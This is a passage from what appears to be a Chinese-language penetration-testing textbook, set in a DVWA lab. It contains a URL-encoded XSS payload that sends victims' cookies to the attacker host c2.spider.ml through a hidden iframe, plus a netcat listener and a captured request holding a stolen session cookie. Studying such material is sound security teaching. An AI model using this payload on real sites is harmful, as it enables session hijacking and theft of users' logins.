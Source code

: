 ![更多文件上传问题](img/B09238_05_13.jpg)

图 5.13：使用 Burp 的解码器模块对 JavaScript 负载进行 URL 编码

所有字符都将转换为它们的十六进制等价物，并在前面加上百分号（`%`），混淆攻击代码并确保它在受害者端成功执行。包含编码负载的 URL 看起来像这样：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?js=**%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%22%4c%6f%61%64%69%6e%67%2e%2e%2e%3c%69%66%72%61%6d%65%20%73%74%79%6c%65%3d%27%64%69%73%70%6c%61%79%3a%6e%6f%6e%65%3b%27%20%73%72%63%3d%27%2f%2f%63%32%2e%73%70%69%64%65%72%2e%6d%6c%2f%22%2b%62%74%6f%61%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%2b%22%27%3e%3c%2f%69%66%72%61%6d%65%3e%22%29%3b%73%65%74%54%69%6d%65%6f%75%74%28%66%75%6e%63%74%69%6f%6e%28%29%7b%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%3d%27%2f%27%3b%7d%2c%35%30%30%29%3b**

```

一旦受害者跟随前面的恶意链接，我们应该能够看到请求进入`c2.spider.ml`并从`GET`请求中获取编码的 cookie 值。为了实现这一点，我们可以使用 netcat（`nc`）应用程序在端口`80`上设置监听器。Netcat 是攻击者的瑞士军刀，可以做的远不止成为一个简单的服务器，但对于我们的目的，这应该足够了。

我们可以使用以下开关调用`nc`二进制文件：`-l`用于启动监听器，`-v`用于显示详细信息，`-p`用于指定端口`80`作为监听端口：

```
**root@spider-c2-1:~# nc -lvp 80**
**listening on [any] 80 ...**
**connect to [10.0.0.4] from 11.25.198.51 59197**

```

当服务器准备好接收来自受害者的连接时，我们可以开始我们的攻击，并等待用户点击我们恶意的 URL：

```
GET /**UEhQU0VTU0lEPXBhdGxrbms4bm5ndGgzcmFpNjJrYXYyc283OyBzZWN1cml0eT1oaWdo**
HTTP/1.1
Host: c2.spider.ml
Connection: keep-alive
Upgrade-Insecure-Requests: 1
[...]
```
